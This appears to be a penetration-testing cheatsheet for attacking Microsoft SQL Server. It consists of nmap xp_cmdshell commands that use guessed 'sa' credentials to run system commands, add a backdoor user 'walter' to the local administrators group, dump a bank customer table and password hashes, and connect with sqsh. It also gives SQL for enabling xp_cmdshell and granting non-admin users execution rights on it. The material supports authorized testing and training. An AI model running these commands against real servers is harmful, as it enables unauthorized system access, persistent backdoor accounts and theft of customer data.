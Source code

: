 # Cheatsheet

## Nmap
```
nmap –script "ms-sql and not ms-sql-brute" "–script-args=mssql.username=sa,mssql.password=password,ms-sql-config.showall=true,ms-sql-tables.maxdb=0,ms-sql-tables.maxtables=0,ms-sql-xp-cmdshell.cmd=ipconfig /all" -d -oN mssql.nmap -Pn -v -sV –version-intensity 9 -T2 -p T:27900,U:1434 10.33.1.33

nmap -sV -T2 -Pn -n -sS –script=ms-sql-xp-cmdshell.nse -p1433 –script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user walter P@ssWORD1234 /add" 10.33.1.33

nmap -sV -T2 -Pn -n -sS –script=ms-sql-xp-cmdshell.nse -p1433 –script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net localgroup administrators walter /add" 10.33.1.33

nmap -v -sV –version-intensity 9 -T2 -p T:27900,U:1433 –script ms-sql-query –script-args mssql.username=sa,mssql.password=password,mssql.database=bankdb,ms-sql-query.query="SELECT * FROM tblCustomers" 10.33.1.33
```

## Enable xp_cmdshell

```
exec sp_configure 'show advanced options', 1
RECONFIGURE
exec sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

## Disable xp_cmdshell
```
exec sp_configure 'show advanced options', '1'
RECONFIGURE
exec sp_configure 'xp_cmdshell', '0'
RECONFIGURE
```

## Grant permissions to xp_cmdshell
Let's say we have a user that is not a sysadmin, but is a user of the master database and we want to grant access to run xp_cmdshell:
```
-- add user test to the master database
USE [master]
GO
CREATE USER [test] FOR LOGIN [test]
GO

-- grant execute access to xp_cmdshell
GRANT EXEC ON xp_cmdshell TO [test]
```

## List all databases
```
EXEC sp_databases;
select * from sysobjects where xtype = 'U';
```

## Nmap Enumeration
```
nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip
```

## Connect from Linux

```
sqsh -S someserver -U sa -P poiuytrewq -D bankdb
```